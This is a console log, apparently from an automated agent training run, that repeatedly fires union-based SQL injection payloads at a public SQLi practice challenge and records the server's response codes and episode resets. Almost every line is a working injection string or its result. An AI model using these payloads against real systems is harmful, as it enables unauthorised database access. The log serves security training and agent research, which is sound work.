https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union selec

  0%|          | 1896/1000000 [11:24:38<21691:23:10, 78.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1897/1000000 [11:24:40<15345:16:58, 55.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1898/1000000 [11:24:42<10935:39:33, 39.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://z

  0%|          | 1899/1000000 [11:25:00<9123:42:00, 32.91s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?i

  0%|          | 1900/1000000 [11:26:12<12377:25:17, 44.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 1901/1000000 [11:27:35<15626:59:43, 56.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1902/1000000 [11:27:36<11025:22:59, 39.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1903/1000000 [11:27:37<7793:16:40, 28.11s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1904/1000000 [11:27:39<5620:42:02, 20.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1905/1000000 [11:27:40<4015:51:08, 14.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error

  0%|          | 1906/1000000 [11:28:35<7411:17:53, 26.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1907/1000000 [11:28:36<5263:41:12, 18.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1908/1000000 [11:28:38<3844:28:25, 13.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1909/1000000 [11:28:39<2769:58:09,  9.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1910/1000000 [11:28:40<2018:47:47,  7.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1911/1000000 [11:28:41<1506:11:39,  5.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3

  0%|          | 1912/1000000 [11:29:02<2737:55:39,  9.88s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 

  0%|          | 1913/1000000 [11:32:22<18622:04:51, 67.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1914/1000000 [11:32:27<13374:36:51, 48.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1915/1000000 [11:32:27<9393:54:23, 33.88s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server respons

  0%|          | 1916/1000000 [11:32:44<7978:04:03, 28.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax e

  0%|          | 1917/1000000 [11:32:52<6229:35:11, 22.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1918/1000000 [11:32:53<4507:54:14, 16.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1919/1000000 [11:32:55<3303:56:24, 11.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user()

  0%|          | 1920/1000000 [11:33:42<6248:54:51, 22.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1921/1000000 [11:33:46<4695:48:15, 16.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user() --
https://zixem.a

  0%|          | 1922/1000000 [11:34:08<5107:33:26, 18.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4 --
https

  0%|          | 1923/1000000 [11:35:30<10408:50:41, 37.54s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1924/1000000 [11:35:31<7356:50:20, 26.54s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1925/1000000 [11:35:32<5214:23:12, 18.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1926/1000000 [11:35:33<3731:36:22, 13.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1927/1000000 [11:35:34<2700:18:11,  9.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1928/1000000 [11:35:35<1977:46:55,  7.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1929/1000000 [11:35:36<1460:38:13,  5.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Ser

  0%|          | 1930/1000000 [11:37:24<9989:33:22, 36.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1931/1000000 [11:37:25<7059:00:16, 25.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1932/1000000 [11:37:26<5101:10:36, 18.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 1933/1000000 [11:40:06<16845:32:49, 60.76s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1934/1000000 [11:40:08<11929:23:38, 43.03s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -

  0%|          | 1935/1000000 [11:40:31<10311:04:01, 37.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1936/1000000 [11:40:32<7294:10:32, 26.31s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1937/1000000 [11:40:33<5167:20:11, 18.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1938/1000000 [11:40:34<3689:27:55, 13.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1939/1000000 [11:40:35<2661:21:51,  9.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serve

  0%|          | 1940/1000000 [11:42:01<9001:38:42, 32.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Serv

  0%|          | 1941/1000000 [11:43:24<13261:17:29, 47.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1942/1000000 [11:43:25<9362:56:58, 33.77s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1943/1000000 [11:43:28<6766:48:08, 24.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1944/1000000 [11:43:29<4821:35:57, 17.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server respo

  0%|          | 1945/1000000 [11:43:51<5247:27:52, 18.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1946/1000000 [11:43:52<3742:16:40, 13.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1947/1000000 [11:43:53<2678:40:31,  9.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1948/1000000 [11:43:54<1958:26:53,  7.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1949/1000000 [11:43:55<1433:52:30,  5.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1950/1000000 [11:43:56<1087:47:00,  3.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1951/1000000 [11:43:56<827:01:41,  2.98s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error.

  0%|          | 1952/1000000 [11:46:07<11455:09:25, 41.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1953/1000000 [11:46:09<8157:43:11, 29.43s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
